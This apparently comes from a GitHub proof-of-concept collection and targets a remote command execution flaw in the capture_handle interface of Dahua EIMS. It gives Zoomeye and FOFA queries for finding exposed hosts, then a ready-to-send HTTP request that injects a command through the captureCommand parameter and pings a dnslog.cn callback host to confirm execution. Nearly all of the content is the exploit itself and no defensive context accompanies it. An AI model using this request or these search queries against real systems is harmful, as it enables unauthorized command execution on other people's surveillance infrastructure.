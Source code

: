 ## 大华EIMS-capture_handle接口远程命令执行漏洞

## Zoomeye
```
 app:"大华 EIMS"
```

## fofa
```
"<title>eims</title>"
```


## poc
```
GET /config/asst/system_setPassWordValidate.action/capture_handle.action?captureFlag=true&captureCommand=ping%20xxx.dnslog.cn%20index.pcap HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Host: :9080
```

![63e62605aa1608f45153df0fd67b3632](https://github.com/wy876/POC/assets/139549762/f46556c9-dea7-4e50-9199-29229d977d2f)

![c5f4eb4662d85c100e7e6dc67621a6e8](https://github.com/wy876/POC/assets/139549762/8a08fbe3-57cc-4d99-a202-8fa23ad69779)
